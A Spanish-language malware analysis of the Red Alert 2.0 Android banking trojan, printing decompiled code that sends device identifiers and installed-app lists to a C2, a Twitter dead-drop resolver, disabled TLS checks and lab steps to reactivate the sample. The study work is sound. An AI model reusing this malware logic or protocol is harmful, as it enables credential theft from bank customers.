

[Red Alert 2.0, identificado por MITRE ATT&CK como S0539](https://attack.mitre.org/software/S0539/), es un troyano bancario para Android que puede presentarse como una aplicación legítima, comunicarse con su infraestructura de mando y control (C2) mediante HTTP y superponer plantillas maliciosas sobre otras aplicaciones. La familia y su infraestructura fueron documentadas por ThreatFabric en su [análisis de Red Alert 2.0](https://www.threatfabric.com/blogs/new_android_trojan_targeting_over_60_banks_and_social_apps).  La aplicación (como la gran mayoría de troyanos bancarios) analiza las aplicaciones instaladas en el terminal, para elegir correctamente la plantilla HTML que busca simular y robar credenciales. La muestra contiene una lista extensa de aplicaciones, algunas relacionadas con banca española. Un ejemplo es la aplicación Bbvacontigo. 


MITRE atribuye expresamente a Red Alert 2.0 el uso de Twitter para localizar un C2 de respaldo, el empleo de HTTP en el puerto 7878 y la descarga de plantillas adicionales. Estas capacidades corresponden, respectivamente, a [T1481.001, Web Service: Dead Drop Resolver](https://attack.mitre.org/techniques/T1481/001/), [T1509, Non-Standard Port](https://attack.mitre.org/techniques/T1509/) y [T1407, Download New Code at Runtime](https://attack.mitre.org/techniques/T1407/).

En este análisis, una plantilla es un documento HTML preparado para imitar la interfaz de una aplicación legítima, normalmente la pantalla de acceso o un formulario de una entidad bancaria. Cuando la aplicación objetivo se encuentra en primer plano, el malware puede mostrar ese HTML en un `WebView` superpuesto. El usuario ve una interfaz que aparenta pertenecer a la entidad, pero los datos introducidos quedan bajo el control del malware. La plantilla principal contiene la imitación que se presenta inicialmente; la muestra también admite una segunda variante, que el código denomina de «trabajo técnico (`technicalWorkHtml`)» y puede mostrarse después para continuar el engaño tras introducir las credenciales por la primera.

El catálogo de plantillas no contiene necesariamente esos documentos HTML. Es la respuesta con la que el C2 indica qué plantillas ofrece para las aplicaciones comunicadas por el dispositivo y proporciona los selectores necesarios para pedirlas. Después, la APK utiliza cada selector para descargar mediante otra solicitud el HTML de la plantilla correspondiente.

La APK utiliza una única dirección base para comunicarse con el C2 y añade a ella distintas rutas según la operación que necesite realizar. Una vez registrado el dispositivo, el planificador pone en marcha dos flujos HTTP independientes. El primero consulta las órdenes remotas mediante `POST /sy`. El segundo gestiona las plantillas: comunica las aplicaciones instaladas y solicita el catálogo descrito anteriormente mediante `POST /sban`; a partir de los selectores incluidos en la respuesta, descarga los documentos HTML mediante `POST /gt`. La respuesta de `/sy` no inicia la descarga de plantillas; esta comienza por su propia tarea programada. Ambos flujos se ejecutan en hilos distintos y pueden coincidir en el tiempo, aunque dentro del flujo de plantillas existe un orden necesario: primero `/sban` y después uno o varios `/gt`. 

El análisis estático se apoya en la APK original abierta en JADX:

| Artefacto utilizado                                                    | Función                          | Identificación                                                                                           | SHA-256                                                            |
| ---------------------------------------------------------------------- | -------------------------------- | -------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| `b83bd8c755cb7546ef28bac157e51f04257686a045bbf9d64bec7eeb9116fd8a.apk` | APK original analizada en JADX   | Paquete `com.kmc.prod`; versión 7.5; API mínima 13 y objetivo 22                                         | `b83bd8c755cb7546ef28bac157e51f04257686a045bbf9d64bec7eeb9116fd8a` |

### Criterio de lectura del código ofuscado

La muestra contiene una cantidad elevada de ofuscación y afecta principalmente a los nombres de paquetes, clases, métodos y atributos. Por ejemplo, la clase recuperada como `com.kmc.prod.d.a` contiene el comentario de compilación `DataRtmSender.java`, mientras que sus métodos de envío aparecen como `a(...)`, `b(...)`, `g()`, `h()`, `i()` y `j()`. Los recursos también presentan nombres ofuscados. En general se ha normalizado el código para facilitar la lectura.

### Estado inicial y planificación

La clase interna `com.kmc.prod.c.a`, compilada con el nombre `DBProcessor_hvjd4`, es el componente que administra la base de datos local. En una base recién creada genera `iDataBase.db` y tres tablas: `currentCommand`, que conserva el registro y las órdenes; `template`, que almacena las plantillas; y `smsList`, que mantiene mensajes pendientes. Si `currentCommand` está vacía, inserta una fila con:

```text
id = 1
domain = http://146.0.72.85:7878
isRegistered = NULL
uid = NULL
```

El valor inicial procede directamente del recurso `domain`:

```xml
<string name="domain">http://146.0.72.85:7878</string>
```

La clase `com.kmc.prod.c.a` inserta ese recurso sin resolverlo ni transformarlo:

```java
private static String f34a =
        "SELECT * FROM currentCommand tab WHERE tab.isRegistered = 1";

// ...
Cursor cursorRawQuery = sQLiteDatabase.rawQuery(b, c);
if (cursorRawQuery.getCount() == 0) {
    ContentValues contentValues = new ContentValues();
    contentValues.put("id", (Integer) 1);
    contentValues.put("domain",
            e.getResources().getString(R.string.domain));
    sQLiteDatabase.insert("currentCommand", "", contentValues);
}
```

El campo `domain` guarda la dirección base del C2; el campo `isRegistered` indica si el servidor ya ha aceptado el registro; y el campo `uid` queda reservado para el identificador de bot que devolverá dicho servidor. La consulta que determina el registro busca una fila cuyo campo `isRegistered` sea `1`. Por tanto, el valor nulo inicial equivale a “no registrado”. La tabla `template` también comienza vacía.

Al abrir la actividad que Android muestra en el lanzador, la APK inicia el servicio interno `WldService_duc3`. Su método `onStart` llama a `SchedulerExecutor.a`, que pone en marcha el planificador periódico de la muestra. El intervalo concreto depende del nivel de API de Android:

- En el nivel de API 22 o inferior, esta ruta programa la primera ejecución unos 3 segundos después y repeticiones cada 20 segundos.
- En un nivel superior a 22, el receptor auxiliar `RepeatedHadler` encadena alarmas nominales de 10 segundos.

Cada vez que se activa el método `SchedulerExecutor.onReceive`, el planificador consulta `isRegistered`. Mientras sea falso, crea un hilo que ejecuta `DataRtmSender.g()`. La clase `DataRtmSender` construye y envía las solicitudes de red, y su método `g()` implementa el registro. No existe una llamada recursiva que mantenga una misma solicitud en espera hasta conseguirlo: cada activación del planificador produce como máximo un intento.

El nombre corto `d` corresponde aquí a una clase interna recuperada de `SchedulerExecutor.java`. El siguiente par de fragmentos muestra la transición completa desde el estado no registrado hasta `DataRtmSender.g()`:

```java
public void onReceive(Context context, Intent intent) {
    if (!com.kmc.prod.c.a.a(context).e()) {
        new d(this, context).start();
        return;
    }
    // ... tareas reservadas al estado registrado
}
```

```java
final class d extends Thread {
    private Context f49a;

    @Override
    public final void run() {
        super.run();
        com.kmc.prod.d.a.a(this.f49a).g();
    }
}
```

El método `com.kmc.prod.c.a.e()` ejecuta la consulta de `isRegistered` mostrada anteriormente. Mientras devuelve falso, cada vencimiento crea una instancia nueva del hilo `d`; el código no consulta si ya existe otra. Este hecho explica a nivel de red la posible aparición de varios intentos TCP hacia `146.0.72.85:7878`. Su número depende de cuánto tarde la pila TCP en declarar fallida cada conexión y de los vencimientos de 20 o 10 segundos que ocurran durante esa espera.

### Intento de registro hacia la dirección primaria

El método `DataRtmSender.g()` construye un objeto JSON con la siguiente estructura:

```json
{
  "number": "<LINE1_NUMBER_O_SUBSCRIBER_ID>",
  "iccid": "<SIM_SERIAL_NUMBER>",
  "model": "<FABRICANTE_Y_MODELO>",
  "imei": "<DEVICE_ID>",
  "os": "Android <VERSION>",
  "control_number": "delete later",
  "type": "stbi",
  "lang": "<IDIOMA>",
  "hash": "jfkbl6fm02mfk0rcuva0i4vgoxyej2z8tvlr01jq"
}
```

El recurso ofuscado `url_iscvdfi3` resuelve la ruta lógica empleada por el método:

```xml
<string name="url_iscvdfi3">stbi</string>
```

El método `g()` de `com.kmc.prod.d.a`, clase compilada como `DataRtmSender`, construye el objeto y entrega el valor `stbi` a la rutina general de envío:

```java
public final void g() {
    // ...
    String string = this.f35a.getResources()
            .getString(R.string.url_iscvdfi3);
    JSONObject jSONObject = new JSONObject();

    // Obtención de subscriberId y strB
    // ...

    jSONObject.put("number", subscriberId);
    Context context2 = this.f35a;
    jSONObject.put("iccid", context2 != null
            ? ((TelephonyManager) context2.getSystemService("phone"))
                    .getSimSerialNumber()
            : "");
    jSONObject.put("model", strB);
    jSONObject.put("imei", ae.c(this.f35a));
    jSONObject.put("os", "Android " + Build.VERSION.RELEASE);
    jSONObject.put("control_number", "delete later");
    jSONObject.put("type", string);
    jSONObject.put("lang", Locale.getDefault().getLanguage());
    jSONObject.put("hash",
            this.f35a.getResources().getString(R.string.hash));

    a(string, jSONObject.toString(), new com.kmc.prod.b.h());
}
```

El cliente prepara el siguiente intercambio de registro. Se documenta porque define el método, la ruta, las cabeceras y el cuerpo implementados por la muestra, pero si para el estudio buscamos que el C2 se resuelva desde Twitter, no va a llegar a ocurrir.

```http
POST /stbi HTTP/1.1
Host: 146.0.72.85:7878
Accept: text/html,application/xhtml+xml,application/xml,application/json;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Content-Type: application/json
Content-Length: <longitud de BASE64_DEFAULT(JSON_REGISTRO)>

<BASE64_DEFAULT(JSON_REGISTRO)>
```

La conexión configura un tiempo máximo de lectura de 30 segundos, desactiva la caché y habilita entrada y salida. No establece un tiempo máximo de conexión. Las cabeceras `Host`, un posible `User-Agent` y otras propiedades del transporte pueden ser añadidas por la implementación de `HttpURLConnection`; no son constantes establecidas por la muestra.

El método sobrecargado por ofuscación `a(String, String, ResponseHandler)` de `com.kmc.prod.d.a` contiene la correspondencia entre los argumentos anteriores y la solicitud HTTP:

```java
String strEncodeToString =
        Base64.encodeToString(str2.getBytes(), 0);

HttpURLConnection httpURLConnection =
        (HttpURLConnection) new URL(
                com.kmc.prod.c.a.a(this.f35a).a()
                + "/" + str).openConnection();

httpURLConnection.setReadTimeout(30000);
httpURLConnection.setUseCaches(false);
httpURLConnection.setRequestMethod("POST");
httpURLConnection.setRequestProperty(
        "Accept",
        "text/html,application/xhtml+xml,application/xml,"
        + "application/json;q=0.9,*/*;q=0.8");
httpURLConnection.setRequestProperty(
        "Accept-Language", "en-US,en;q=0.5");
httpURLConnection.setRequestProperty(
        "Connection", "keep-alive");
httpURLConnection.setRequestProperty(
        "Content-Type", "application/json");
httpURLConnection.setRequestProperty(
        "Content-Length",
        Integer.toString(strEncodeToString.length()));
httpURLConnection.setDoOutput(true);
httpURLConnection.setDoInput(true);

DataOutputStream dataOutputStream =
        new DataOutputStream(httpURLConnection.getOutputStream());
dataOutputStream.writeBytes(strEncodeToString);
// ...

int responseCode = httpURLConnection.getResponseCode();
BufferedReader bufferedReader = new BufferedReader(
        new InputStreamReader(httpURLConnection.getInputStream()));
// ... lectura de todas las líneas en sb

if (responseCode != 200) {
    throw new Exception("server response in NOT OK!");
}
iVar.a(sb.toString(), this.f35a);
```

El cliente obtiene el código de respuesta, abre el flujo de entrada, lee el cuerpo línea por línea y concatena las líneas sin reinsertar sus separadores. Solo después comprueba que el código sea exactamente `200`. Si lo es, entrega el cuerpo concatenado a `RegisterDeviceResponse`, el manejador encargado de procesar la contestación al registro. Este manejador no exige la palabra `OK`, JSON ni ningún otro formato: usa el cuerpo completo como `uid` o `bot_id`, dos nombres empleados por la muestra para el identificador que el C2 asigna al dispositivo, marca `isRegistered = 1` y pone en marcha las tareas posteriores.

La apertura de la conexión, el envío, la lectura de la respuesta, la comprobación del código HTTP y la ejecución del manejador están dentro del mismo bloque `try`. Cualquier fallo de red que produzca una excepción durante esas operaciones transfiere la ejecución al bloque `catch` correspondiente. Si Android continúa indicando que existe conectividad general, ese bloque llama al resolver de respaldo. Este relevo final es justamente lo que estamos estudiando para la técnica.

La llamada al resolver aparece en el bloque de error del mismo método:

```java
} catch (Exception e) {
    if (h.a(this.f35a).a()) {
        i();
        new StringBuilder("url:")
                .append(com.kmc.prod.c.a.a(this.f35a).a())
                .append(str);
    }
}
```

El método ofuscado `i()` es el resolver que consulta TimeAPI y Twitter. Para alcanzar su ejecución, es tan sencillo como dejar el intento hacia `146.0.72.85:7878` sin respuesta. Debido a la arquitectura multi hilo de la aplicación, varios hilos podrían llegar a ejecutar el resolver. El primer resolver que valide el C2 alternativo mediante `/ping` guarda el nuevo dominio. Los demás comparan la dirección reconstruida con el valor que exista en SQLite cuando procesen el tuit: si ya coincide, omiten `/ping`.

### Ejecución completa del Dead Drop Resolver

### Consulta a TimeAPI

El diseño del resolver usado por la muestra es de muy alto nivel. El malware hace una petición a TimeAPI, y utiliza la respuesta como semilla para localizar de forma dinámica qué cuenta de Twitter usar para el resolver. Es (en cierta manera) un equivalente al algoritmo DGA (Domain generation algorithm) pero basado en el uso de servicios web legítimos. El resolver construye primero la URL almacenada en `url_dsc7f3c83xfs`:

```text
http://www.timeapi.org/utc/now?%5CD
```

El dispositivo resuelve `www.timeapi.org` mediante DNS. La conexión se realiza mediante HTTP en el puerto 80:

```http
GET /utc/now?%5CD HTTP/1.1
Host: www.timeapi.org
Accept: text/html,application/xhtml+xml,application/xml,application/json;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```

El método ofuscado `j()` contiene tanto esta solicitud como el uso de su respuesta. El recurso que entrega a `URL` es:

```xml
<string name="url_dsc7f3c83xfs">http://www.timeapi.org/utc/now?%5CD</string>
```

El código relevante es:

```java
private String j() throws Exception {
    HttpURLConnection httpURLConnection =
            (HttpURLConnection) new URL(
                    this.f35a.getResources()
                            .getString(R.string.url_dsc7f3c83xfs))
                    .openConnection();

    httpURLConnection.setRequestMethod("GET");
    httpURLConnection.setUseCaches(false);
    httpURLConnection.setRequestProperty(
            "Accept",
            "text/html,application/xhtml+xml,application/xml,"
            + "application/json;q=0.9,*/*;q=0.8");
    httpURLConnection.setRequestProperty(
            "Accept-Language", "en-US,en;q=0.5");

    int responseCode = httpURLConnection.getResponseCode();
    if (responseCode != 200) {
        throw new Exception("twitter response in NOT OK!");
    }

    // ... lectura de la respuesta en sb

    a.a.b.f fVarE = ae.e(sb.toString());
    ae.f("body");
    String strTrim = a.a.d.a.a(
            new a.a.d.e("body".toLowerCase().trim()), fVarE)
            .get(0).k().trim();

    return !strTrim.isEmpty()
            ? ae.a(strTrim
                    + this.f35a.getResources().getString(R.string.hash))
                    .substring(0, 15)
            : "";
}
```

Aunque el mensaje de la excepción menciona por error a Twitter, la URL literal demuestra que este método se comunica con `www.timeapi.org`. El valor retornado ya es el identificador de quince caracteres que consumirá el método de Twitter para la resolución de cuenta.

El código exige un código `200`. Después concatena las líneas de la respuesta, analiza el resultado como HTML, selecciona el primer elemento `body`, obtiene todo su texto descendiente con normalización de espacios y aplica `trim()`. El analizador acepta, por ejemplo, esta estructura mínima:

```html
<html><body><TEXTO_TIMEAPI></body></html>
```

Como se mencionó, el contenido condiciona el identificador de Twitter. Como varios hilos pueden ejecutar el resolver, respuestas distintas producirían identificadores distintos; una respuesta constante hace que todos reconstruyan el mismo resultado. Para la experimentación con la muestra, esto interesa en demasía. 

### Cálculo del identificador de Twitter

El recurso `hash` contiene:

```text
jfkbl6fm02mfk0rcuva0i4vgoxyej2z8tvlr01jq
```

La función `ae.a(String)` calcula MD5 sobre la concatenación del hash y el resultante de TimeAPI. Posteriormente, representa sus 16 bytes mediante 32 caracteres hexadecimales en minúsculas, con dos caracteres por byte. A continuación, `substring(0, 15)` selecciona los caracteres comprendidos entre el índice 0, incluido, y el índice 15, excluido. El resultado contiene exactamente quince caracteres:

$$
\mathrm{TWITTER\_ID}
=
\operatorname{prefix}_{15}
\left(
\operatorname{hex}_{\mathrm{min}}
\left(
\operatorname{MD5}
\left(
\operatorname{Bytes}
\left(
T_{\mathrm{TimeAPI}}
\parallel
H_{\mathrm{recurso}}
\right)
\right)
\right)
\right)
$$

La función `ae.a(String)`, recuperada dentro de la clase compilada como `Parser.java`, confirma la transformación:

```java
public static String a(String str) {
    try {
        MessageDigest messageDigest =
                MessageDigest.getInstance("MD5");
        messageDigest.update(str.getBytes());
        byte[] bArrDigest = messageDigest.digest();
        StringBuilder sb = new StringBuilder();
        for (byte b : bArrDigest) {
            String hexString = Integer.toHexString(b & 255);
            while (hexString.length() < 2) {
                hexString = "0" + hexString;
            }
            sb.append(hexString);
        }
        return sb.toString();
    } catch (NoSuchAlgorithmException e) {
        e.printStackTrace();
        return "";
    }
}
```

`Integer.toHexString` produce letras minúsculas y el bucle antepone un cero cuando un byte solo ocuparía un carácter hexadecimal. La llamada a `substring(0, 15)` pertenece al método `j()` mostrado anteriormente.

### Relación seleccionada entre TimeAPI y Twitter

El texto de TimeAPI determina la ruta que la APK solicita a Twitter. Para el estudio se propone un caso estático que permita que la aplicación funcione. El servicio de TimeAPI devolverá siempre el cuerpo UTF-8 siguiente, de 51 bytes:

```html
<html><body>2024-01-02T03:04:05+00:00</body></html>
```

La entrada de MD5, sin separador entre el texto anterior y el recurso `hash`, es:

```text
2024-01-02T03:04:05+00:00jfkbl6fm02mfk0rcuva0i4vgoxyej2z8tvlr01jq
```

Al codificar esa cadena ASCII como UTF-8 se obtienen 65 bytes. El resultado MD5 completo es:

```text
86d08d31c9d47332a26dbb0d22001186
```

La operación `substring(0, 15)` selecciona:

```text
86d08d31c9d4733
```

Por tanto, después de procesar la respuesta de TimeAPI, la APK solicitará exactamente:

```text
https://twitter.com/86d08d31c9d4733
```

### Consulta a Twitter

El dispositivo resuelve `twitter.com` mediante la configuración DNS de Android, establece una conexión TCP con el puerto 443 y negocia TLS con la dirección obtenida.

Antes de abrir la conexión, la muestra modifica los valores predeterminados de `HttpsURLConnection`:

- Instala un `HostnameVerifier` que devuelve siempre `true`. Por ello no rechaza un certificado cuyo nombre no corresponda a `twitter.com`.
- Instala un `X509TrustManager` cuyas comprobaciones de certificados de cliente y servidor están vacías y cuya lista de emisores aceptados está vacía. Por ello no exige una cadena firmada por una autoridad de confianza.

En resumen, el cliente acepta un certificado autofirmado o emitido para otro nombre. La solicitud es (usando el caso práctico anteriormente mencionado):

```http
GET /86d08d31c9d4733 HTTP/1.1
Host: twitter.com
Accept: text/html,application/xhtml+xml,application/xml,application/json;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
```

El recurso `idc83hxsc` contiene la dirección base de Twitter:

```xml
<string name="idc83hxsc">https://twitter.com/</string>
```

El método `i()` concatena esa base con el resultado de `j()`, instala los verificadores anteriores y abre la conexión HTTPS:

```java
private String i() throws Exception {
    URL url = new URL(
            this.f35a.getResources().getString(R.string.idc83hxsc)
            + j());
    try {
        HttpsURLConnection.setDefaultHostnameVerifier(new f(this));
        SSLContext sSLContext = SSLContext.getInstance("TLS");
        sSLContext.init(
                null,
                new X509TrustManager[]{new g(this)},
                new SecureRandom());
        HttpsURLConnection.setDefaultSSLSocketFactory(
                sSLContext.getSocketFactory());
    } catch (Exception e) {
    }

    HttpsURLConnection httpsURLConnection =
            (HttpsURLConnection) url.openConnection();
    httpsURLConnection.setRequestMethod("GET");
    httpsURLConnection.setUseCaches(false);
    httpsURLConnection.setRequestProperty(
            "Accept",
            "text/html,application/xhtml+xml,application/xml,"
            + "application/json;q=0.9,*/*;q=0.8");
    httpsURLConnection.setRequestProperty(
            "Accept-Language", "en-US,en;q=0.5");

    if (httpsURLConnection.getResponseCode() != 200) {
        throw new Exception("twitter response in NOT OK!");
    }

    // ... lectura del cuerpo y análisis del tuit
}
```

La respuesta final que llega al código debe tener estado `200`. Además, es concatenada sin separadores de línea y se analiza como HTML. El analizador selecciona todos los elementos cuya clase incluya `tweet-text`, toma el primero mediante `get(0)`, obtiene su texto y aplica `trim()`. Una estructura mínima válida es:

```html
<html><body><p class="tweet-text">192.168 56.20</p></body></html>
```

### Reconstrucción del C2 alternativo

Tras obtener la dirección de respaldo, finalmente añade el puerto:

```text
http://A.B.C.D:8060
```

Al sustituir los parámetros por la decisión del laboratorio, la transformación concreta es:

```text
http://192.168.56.20:8060
```

El mismo método `i()` enlaza la extracción HTML con la construcción del siguiente destino:

```java
a.a.b.f fVarE = ae.e(sb.toString());
ae.f("tweet-text");
String strTrim = a.a.d.a.a(
        new a.a.d.d("tweet-text"), fVarE)
        .get(0).k().trim();

String str = "";
if (strTrim.matches(
        "[0-9]{1,3}.[0-9]{1,3} [0-9]{1,3}.[0-9]{1,3}")) {
    str = "http://"
            + strTrim.split(" ")[0]
            + "."
            + strTrim.split(" ")[1];
}

if ("".equals(str)) {
    return "";
}

String str2 = str + ":8060";
if (!"".equals(str2)
        && !str2.equalsIgnoreCase(
                com.kmc.prod.c.a.a(this.f35a).a())) {
    a(str2);
}
```

Aquí `sb` es el HTML recibido de Twitter, `strTrim` es el texto del primer elemento `tweet-text`, `str2` es la dirección completa con el puerto 8060 y la llamada ofuscada `a(str2)` inicia la validación `/ping`. 

### Validación y persistencia del C2 alternativo

Si el C2 reconstruido no es una cadena vacía y es distinto del dominio guardado, el resolver llama a la rutina de validación. Con los valores seleccionados, esta abre una conexión HTTP con `192.168.56.20:8060` y utiliza `/ping`, una ruta destinada únicamente a comprobar que el nuevo servidor responde:

```http
POST /ping HTTP/1.1
Host: 192.168.56.20:8060
Accept: text/html,application/xhtml+xml,application/xml,application/json;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Content-Type: application/json
Content-Length: 9

cGluZw==\n
```

Los recursos y el método `a(String)` de `com.kmc.prod.d.a` confirman la ruta, la codificación y la condición que precede a la persistencia:

```xml
<string name="url_ydfs7fc348">ping</string>
```

```java
private void a(String str) {
    try {
        String strEncodeToString =
                Base64.encodeToString("ping".getBytes(), 0);
        HttpURLConnection httpURLConnection =
                (HttpURLConnection) new URL(
                        str + "/"
                        + this.f35a.getResources()
                                .getString(R.string.url_ydfs7fc348))
                        .openConnection();

        httpURLConnection.setUseCaches(false);
        httpURLConnection.setRequestMethod("POST");
        httpURLConnection.setRequestProperty(
                "Accept",
                "text/html,application/xhtml+xml,application/xml,"
                + "application/json;q=0.9,*/*;q=0.8");
        httpURLConnection.setRequestProperty(
                "Accept-Language", "en-US,en;q=0.5");
        httpURLConnection.setRequestProperty(
                "Connection", "keep-alive");
        httpURLConnection.setRequestProperty(
                "Content-Type", "application/json");
        httpURLConnection.setRequestProperty(
                "Content-Length",
                Integer.toString(strEncodeToString.length()));
        httpURLConnection.setDoOutput(true);
        httpURLConnection.setDoInput(true);

        DataOutputStream dataOutputStream =
                new DataOutputStream(httpURLConnection.getOutputStream());
        dataOutputStream.writeBytes(strEncodeToString);
        dataOutputStream.flush();
        dataOutputStream.close();

        int responseCode = httpURLConnection.getResponseCode();
        // ... lectura del cuerpo

        if (responseCode != 200) {
            throw new Exception("server response in NOT OK!");
        }

        SQLiteDatabase writableDatabase =
                com.kmc.prod.c.a.a(this.f35a).getWritableDatabase();
        ContentValues contentValues = new ContentValues();
        contentValues.put("domain", str);
        writableDatabase.update(
                "currentCommand",
                contentValues,
                " id = ? ",
                new String[]{"1"});
        // ...
    } catch (Exception e2) {
        // ...
    }
}
```

La concatenación con el recurso `ping` produce `http://192.168.56.20:8060/ping`. El malware lee y concatena el cuerpo de respuesta, pero no utiliza su contenido. Solo exige el código `200`; un cuerpo vacío es válido. Después, y solo después de ese éxito, actualizará la fila `id = 1` de `currentCommand`:

```text
domain = http://192.168.56.20:8060
```

### Reintento y asociación lógica con el C2 alternativo

La primera activación posterior de `SchedulerExecutor` que observe el nuevo dominio y encuentre todavía `isRegistered` a falso inicia otro hilo de registro. La misma rutina `DataRtmSender.g()` reconstruye los campos con los valores actuales del dispositivo y envía:

```http
POST /stbi HTTP/1.1
Host: 192.168.56.20:8060
Accept: text/html,application/xhtml+xml,application/xml,application/json;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Content-Type: application/json
Content-Length: <longitud de BASE64_DEFAULT(JSON_REGISTRO)>

<BASE64_DEFAULT(JSON_REGISTRO)>
```

Este segundo intento es exactamente el mismo al anteriormente comentado, aunque difiere en el destino lógicamente. Debido a la concurrencia en el diseño de la aplicación, el `POST /stbi` dirigido al puerto 8060 puede coincidir temporalmente con retransmisiones TCP hacia el puerto 7878 o con consultas duplicadas a TimeAPI y Twitter iniciadas por otros hilos.

La condición de transporte es un código `200`. El cuerpo se lee por líneas y se concatena. El manejador `RegisterDeviceResponse` no busca `OK`: interpreta el cuerpo completo como identificador. Una respuesta aceptada por el manejador es:

```text
<BOT_ID_LAB>
```

Al procesarla, el manejador realiza estas acciones:

1. Actualiza `uid = <BOT_ID_LAB>` e `isRegistered = 1`.
2. Marca internamente `getSmsList = 1` y `getSmsListCommandExecuted = 0`. En consecuencia, el siguiente ciclo general intentará enviar la lista de SMS aunque esté vacía (como cabe esperar en el entorno emulado del laboratorio).
3. Llama a `SchedulerExecutor.b(context)`, que programa la detección de la aplicación en primer plano y la comprobación de plantillas.
4. Deshabilita el componente de la actividad lanzadora.

El manejador `com.kmc.prod.b.h`, recuperado con el nombre de compilación `RegisterDeviceResponse.java`, contiene esa transición:

```java
public final class h extends a {
    @Override
    public final void a(String str, Context context) {
        this.f33a = context.getResources()
                .getString(R.string.url_iscvdfi3);
        com.kmc.prod.c.a.a(context).a(str);
        com.kmc.prod.c.a.a(context).a(true);
        SchedulerExecutor.b(context);
        context.getPackageManager().setComponentEnabledSetting(
                new ComponentName(
                        context,
                        (Class<?>) Lsf2v3Activity_dc3u3.class),
                2,
                1);
        super.a(null, context);
    }
}
```

El parámetro `str` es el cuerpo concatenado de la respuesta a `/stbi`. La primera llamada a la base de datos lo guarda como `uid` y fija `isRegistered = 1`; la segunda activa `getSmsList`; y `SchedulerExecutor.b(context)` inicia las tareas posteriores. El código no compara `str` con `OK`, de modo que `<BOT_ID_LAB>` debe suministrarse directamente como cuerpo.

### Activación real de T1407

### Cadena de activación

Después de aceptar el registro, se ejecuta la operación `SchedulerExecutor.b(context)`. Este método no envía todavía una petición al C2. Su función es activar dos comprobaciones locales que solo tienen sentido después del registro:

- `NdiHandler` inicia la consulta del catálogo de plantillas. Cuando Android ejecuta este receptor, la cadena termina produciendo `POST /sban`.
- `AfdxChecker` observa periódicamente qué aplicación está en primer plano. No descarga plantillas ni genera tráfico de red; una vez almacenada una plantilla, esta comprobación proporciona la condición local para mostrarla sobre la aplicación correspondiente.

Cuando el dispositivo tiene conectividad y la preferencia `handler["sban"]` no es verdadera, ese hilo llama a `DataRtmSender.h()`, que construye y transmite `POST /sban`.

### Solicitud `/sban`

El método `DataRtmSender.h()` enumera `PackageManager.getInstalledApplications(128)` y añade a `templates_names` todo paquete cuya `ApplicationInfo.sourceDir` no contenga `/system/`. La matriz incluye aplicaciones instaladas por el usuario.

Los recursos que identifican el catálogo y la descarga son:

```xml
<string name="url_dsivfu34">sban</string>
<string name="url_sdugfv347f">gt</string>
```

Los dos métodos implicados aparecen en la misma clase ofuscada `com.kmc.prod.d.a`:

```java
public final void h() {
    while (h.a(this.f35a).a()) {
        try {
            String string = this.f35a.getResources()
                    .getString(R.string.url_dsivfu34);
            JSONObject jSONObject = new JSONObject();
            jSONObject.put("templates_names", k());
            jSONObject.put(
                    "bot_id",
                    com.kmc.prod.c.a.a(this.f35a).d());
            jSONObject.put("imei", ae.c(this.f35a));
            jSONObject.put("type", string);
            jSONObject.put(
                    "lang",
                    Locale.getDefault().getLanguage());
            b(
                    string,
                    jSONObject.toString(),
                    new com.kmc.prod.b.b());
            return;
        } catch (Exception e) {
        }
    }
}

private JSONArray k() {
    JSONArray jSONArray = new JSONArray();
    for (ApplicationInfo applicationInfo
            : this.f35a.getPackageManager()
                    .getInstalledApplications(128)) {
        if (!applicationInfo.sourceDir.contains("/system/")) {
            jSONArray.put(applicationInfo.packageName);
        }
    }
    return jSONArray;
}
```

El método `k()` no decide cuáles son aplicaciones bancarias: devuelve todos los nombres de paquete que superan el filtro de ruta. El operador del panel de C&C es quien puede comparar esa matriz con su catálogo. Para completar el caso práctico, el operador debe elegir como `<PAQUETE_OBJETIVO>` una aplicación inocua instalada que pueda situarse en primer plano. Su nombre no debe terminar en el carácter `2`, porque el manejador reserva esa terminación para identificar el selector de la variante técnica y no procesaría esa clave como plantilla principal.

El JSON transmitido es:

```json
{
  "templates_names": ["<PAQUETE_USUARIO_1>", "<PAQUETE_OBJETIVO>", "..."],
  "bot_id": "<BOT_ID_LAB>",
  "imei": "<IMEI_DISPOSITIVO>",
  "type": "sban",
  "lang": "<IDIOMA_DISPOSITIVO>"
}
```

Se envía con la siguiente estructura:

```http
POST /sban HTTP/1.1
Host: 192.168.56.20:8060
Accept: text/html,application/xhtml+xml,application/xml,application/json;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Content-Type: application/json

<BASE64_DEFAULT(JSON_SBAN)>
```

